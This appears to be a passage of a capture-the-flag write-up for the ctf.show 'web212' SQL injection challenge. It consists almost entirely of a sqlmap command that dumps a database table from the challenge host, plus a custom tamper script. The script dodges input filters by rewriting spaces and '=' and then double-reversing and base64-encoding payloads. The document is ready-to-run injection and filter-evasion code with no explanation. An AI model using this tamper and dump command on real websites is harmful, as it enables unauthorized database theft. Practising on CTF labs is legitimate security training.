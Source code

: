 ```
python2 sqlmap.py -u http://fa1a6ea9-f2ee-4da5-9e8a-cbbb0e31d125.chall.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show  --headers="Content-Type:text/plain" --safe-url="http://fa1a6ea9-f2ee-4da5-9e8a-cbbb0e31d125.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavis --dump  --tamper=web212 --batch
```

```python
#!/usr/bin/env python

import base64
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass


def space2comment(payload):
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == "*":
                retVal += chr(0x31)
                continue

            elif payload[i] == "=":
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal


def tamper(payload, **kwargs):

    if payload:
        payload = space2comment(payload)
        payload = payload.replace(" ","/**/")
        payload = base64.b64encode(payload[::-1].encode("utf-8"))
        payload = base64.b64encode(payload[::-1].encode("utf-8"))
    return payload
```